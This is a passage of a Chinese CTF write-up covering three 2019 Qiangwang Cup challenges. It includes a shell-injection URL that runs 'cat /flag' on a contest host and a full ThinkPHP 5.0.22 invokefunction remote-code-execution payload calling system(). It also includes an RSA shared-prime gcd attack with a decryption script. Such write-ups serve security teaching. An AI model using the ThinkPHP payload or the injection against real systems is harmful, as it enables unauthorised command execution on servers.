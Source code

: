 尝试使用 `$_GET['Efa5BVG']` 参数进行 shell 注入 `cat /flag`，成功。

```
http://117.78.60.139:32435/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag;
```

![](./img/2019-qwb-3.png)

## 强网先锋-上单

找到网页之后看到`这个 5.0.22的二次开发版本由 Smity 独家赞助发布`，thinkphp 5.0.22，emmmmm，自带 RCE，直接构造`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`，拿到`flag{90226d3dd64b8dbddd602e18d8af8dbb}`。

## 强网先锋-辅助

给出 RSA 代码

```python
flag=open("flag","rb").read()

from Crypto.Util.number import getPrime,bytes_to_long
p=getPrime(1024)
q=getPrime(1024)
e=65537
n=p*q
m=bytes_to_long(flag)
c=pow(m,e,n)
print c,e,n

p=getPrime(1024)
e=65537
n=p*q
m=bytes_to_long("1"*32)
c=pow(m,e,n)
print c,e,n
```

发现`n1=p1*q`，`n2=p2*q`，那么`gcd(n1,n2) = q`，即可分别把两个 N 的 p，q 都算出来。写一个解密脚本

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5, PKCS1_OAEP
import gmpy2
from base64 import b64decode
n1 = ...
n2 = ...
p1 = gmpy2.gcd(n1, n2)
q1 = n1 / p1
e = 65537
phin = (p1 - 1) * (q1 - 1)
d = gmpy2.invert(e, phin)
cipher = ...
plain = gmpy2.powmod(cipher, d, n1)
plain = hex(plain)[2:]
if len(plain) % 2 != 0:
    plain = '0' + plain
print plain.decode('hex')
```
